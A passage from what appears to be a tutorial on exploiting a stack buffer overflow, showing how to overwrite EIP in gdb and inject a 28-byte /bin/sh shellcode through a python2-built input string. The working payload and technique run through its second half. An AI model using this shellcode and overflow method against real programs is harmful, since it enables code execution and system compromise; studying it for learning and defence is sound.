 On that case, we going to load 500 chars to the buffer (arg1), we load 496 chars of A's and more 4 chars of B's. Then we can see that by running that command and info registers after it, the EIP was filled up with B chars.

![bo-009.png](/assets/images/bo-009.png)
**Figure 9** Registers information after fault error.

That is mean we want to overwrite that EIP so we have control on the instruction pointer to point back to our code location, also called return address, if we have the return address that is the location of our code, this is the address we should insert to EIP.

So now we can filled the stack with our shellcode, since we know that the crash occur when the stack are filled up with 500 chars and we also know that our code is 28 bytes long and the last 4 are used for EIP overwriting, we can came up with the following:
```
run $(python2 -c "print 'A'*468+<shellcode>+'B'*4")
```

This input should make the crash again, but we now should see our shellcode inserted to the stack.
```
(gdb) run $(python2 -c "print 'A'*468+'\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80'+'B'*4")
```

then run the following to view the esp values:
```
x/500x $esp
```

![bo-010.png](/assets/images/bo-010.png)
**Figure 10** A's chars (\x41) on our stack.
